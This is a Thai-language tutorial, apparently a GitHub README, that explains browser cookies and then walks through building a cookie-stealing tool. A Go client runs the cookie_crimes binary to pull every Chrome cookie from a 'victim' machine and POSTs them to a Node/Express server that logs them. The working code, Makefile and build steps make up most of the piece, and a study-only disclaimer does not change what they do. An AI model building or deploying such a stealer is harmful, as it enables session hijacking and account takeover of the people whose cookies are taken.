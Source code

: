 ```yaml
---
title: เคยสงสัยมั้ยครับว่าเราสามารถ ขโมยคุกกี้ได้ไหม🔥 ?
author: Cookie_crimes Projact
---
```


### ก่อนอื่น Cookie🍪 คืออะไร
คุณเคยสงสัยหรือไม่ว่าคุณจะลงชื่อเข้าใช้เว็บไซต์เพียงครั้งเดียวและยังคงลงชื่อเข้าใช้ได้อย่างไร แม้ว่าคุณจะปิดเบราว์เซอร์แล้วก็ตาม ไม่ว่าคุณจะรู้หรือไม่ก็ตาม คุกกี้มีอยู่ทุกหนทุกแห่ง
ในบทความนี้ เราจะพูดถึงประวัติของคุกกี้ วิธีทำงาน วิธีใช้งานคุกกี้ใน JavaScript และข้อกังวลด้านความปลอดภัยบางประการ

![sdasd](https://www.freecodecamp.org/news/content/images/2021/02/fireship-cookies.png)
### ประวัติย่อของคุกกี้🍪
คุกกี้ HTTP (Hypertext Transfer Protocol) เป็นข้อมูลชิ้นเล็กๆ ที่เซิร์ฟเวอร์ส่งไปยังเว็บเบราว์เซอร์ของผู้ใช้ เบราว์เซอร์อาจจัดเก็บและส่งกลับพร้อมกับคำขอในภายหลังไปยังเซิร์ฟเวอร์เดียวกัน
#### คุกกี้ส่วนใหญ่ใช้เพื่ออะไร📌 เช่น
1. การจัดการเซสชัน
 	- การเข้าสู่ระบบ ตะกร้าสินค้า คะแนนเกม หรือสิ่งอื่นใดที่เซิร์ฟเวอร์ควรจดจำ
1. การปรับแต่ง
	- ค่ากำหนด ธีม และการตั้งค่าอื่นๆ ของผู้ใช้
			
**ศึกษาเพื่มเติมเกียวกับคุกกี้🍪 [Read more](https://www.freecodecamp.org/news/everything-you-need-to-know-about-cookies-for-web-development/)**

### เอาล่ะตอนนี้เราพอได้รู้จัก Cookie แล้วต่อไปเราจะเข้าการ ขโมยคุกกี้กัน

**แต่ ⚠️ เราสร้างขึ้นเพื่อการ ศึกษา หากนำไปใช้ในทางที่ผิด เราจะไม่รับผิดชอบ**

**เข้าไปดู Source code ได้ที่ [Cookie_crimes](https://github.com/Kongthap-code/Cookie_crimes)**

**เราจะมี Directory หลักๆเลยคือ Client และ server**

### => ./Cookie_crimes
```js
client/
server/
```
* Directory client คือส่วนหน้าต่างของเหยือที่จะส่งข้อมูลมาให้ server
* Directory server คือส่วนที่รอรับ cookie จาก client

### => ./client
```js
src/
Makefile
main.go
```
ใน client ของเราก็จมี Makefile เอาไว้ทำอะไร ??? Makefile เอาไว้ Build file main.go เช่น Bulid ให้เป็น EXE ใช่ใน windows ลองดูตัวอย่างต่อไปนี้

### => ./Makefile
```makefile
buildwindows:
	GOOS=windows GOARCH=amd64 go build main.go

build:
	go build main.go
```
การเรียกใช้งาน Makefile ง่ายมากๆด้วยการพิมพ์ว่า
make ตามด้วยชื้อ เช่น make build
ต่อไปเราจะไปที่ src ก่อนใน src คือfileที่ใช้ในการ การสกัดคุกกี้ Chrome โดยไม่ต้องรูท

**สามารถดูเพื่มเติมได้ที่ [cookie_crimes](https://github.com/defaultnamehere/cookie_crimes)**

อย่างแรกที่เราควรทำเลย ไปที่ Makefile อย่างที่สอนไปตอนต้นเลยให้เรา build ทั้งหมดให้เป็น binary ให้เรา make binary
แล้วเราจะได้ file cookie_crimes มาfileเดียวใน Directory ./dist
ให้เราเข้าไปใน Directory ./dist แล้วนำ file cookie_crimes ออกมาจากsrc
### => ./client
```js
src/
+ cookie_crimes
main.go
```
ต่อไปเราจะไปดูในส่วนของ main.go
### => ./client/main.go
```go
package main

import (
	"log"
	"net/http"
	"os/exec"
)

func main() {
	cmd := exec.Command("./cookie_crimes")
	stdout, err := cmd.StdoutPipe()
	if err != nil {
		log.Fatal(err)
	}

	if err := cmd.Start(); err != nil {
		log.Fatal(err)
	}

	if err != nil {
		log.Fatal(err)
	}

	resp, err := http.Post("http://localhost:8080", "application/json", stdout)
	if err != nil {
		log.Fatal(err)
	}
	defer resp.Body.Close()
}
```
การทำงานของคำสั่ง
* import ให้ import "log" , "net/http" , "os/exec" เข้ามาในProjact
* สร้าง function main() ขึ้นมา
* ใน function main() ก็จะรั้นตัว ./cookie_crimes ที่เราbulidมา ./cookie_crimes จะดูดcookieทั้งหมดใน google chrome ไปเก็บใน stdout
*	แล้วทำการ fach ข้อมูลแบบ post ไป http://localhost:8080 **(http://localhost:8080", "application/json", stdout)** localhostก็จะรอรับ ข้อมูลจากเหยืออยู่นั้นเอง
ต่อไปเรา bulid file main.go ให้นำไปใช้จริงกันเถอ

พิมพ์ **make build**

แล้วเราจะได้ file cookie_crimes ที่พร้อมใช้งาน ถ้าเข้าโปรแกรมนี้ มันจะดูดcookieเราส่งไปที่ localhost หรือ dir ./server ที่จะทำต่อจากนี้
ต่อไปเราจะมา Directory server ซึ่งเป็น การสร้าง server เพื่อรอรับ cookie เหยือของเรา

เราใช่เป็น nodejs มาถึงเรา สร้างProjact node โดยเขียนตามคำสั่งนี้
```js
	npm init -y
```
แล้ว project ของเราก็จะเจอ File เพิ่มขึ้นมา 1 File ชื่อว่า package.json ซึ่ง file เนี้ยจะเป็นเหมือนกับบัตรประจำตัว project ของเราว่า project ของเราน่ะ ใช้ nodejs นะ มี command ให้ใช้ตามนี้นะ และต้องใช้ Library ต่างๆที่ระบุไว้ในนี้ ก่อนจะใช้งาน app นี้ก็ให้ลง Library พวกนี้ก่อนนะ ประมาณนี้น่ะครับ
### => ./server
```js
	+ package.json
```
![](https://twinsynergy.co.th/wp-content/uploads/2021/06/nodejs-express.png)
ต่อไปเราจะลง express และ body-parser กัน โดยเขียน
```js
	npm install express
	npm install body-parser
```
เสร็จแล้วเราก็สร้างfile index.jsึ้นมา
### => ./server
```js
	node_modules
	package.json
	package-lock.json
	+ index.js
```
ให้เข้าไป ที่ index.js
```js
const express = require("express");
const bodyParser = require("body-parser");

const App = express();

function Logger(ip, body) {
	console.log(`FROM ${ip}`);
	console.log(body);
}

App.use(express.json({ limit: "10mb"}));

App.post("/", (req,res) => {
	Logger(req.id, req.body);
	res.status(200).json({ status: "success" });
});

App.listen(8080, () => {
	console.log("Listening on " + 8080);
});
```
การทำงานของคำสั่ง
* สร้าง const express แล้ว require module เข้ามา
* สร้าง const bodyParser แล้ว require module เข้ามา
* const App กำหนดให้ใช้ express
* App.post("/"), (req,res) => {} รอรับข้อมูลจาก main.go แล้วแสดงผลออกมา
	
### เพียงเท่านี้ก็เสร็จหมดแล้ว
เป็นยังไงกันบ้างครับขอให้เขียน Code กันอย่างสนุกนะครับถ้าผมมีข่าวสารดีๆจะมาเขียนบทความให้นะครับขอบคุณครับ

อ่างอิง
**[cookie_crimes](https://github.com/defaultnamehere/cookie_crimes)**

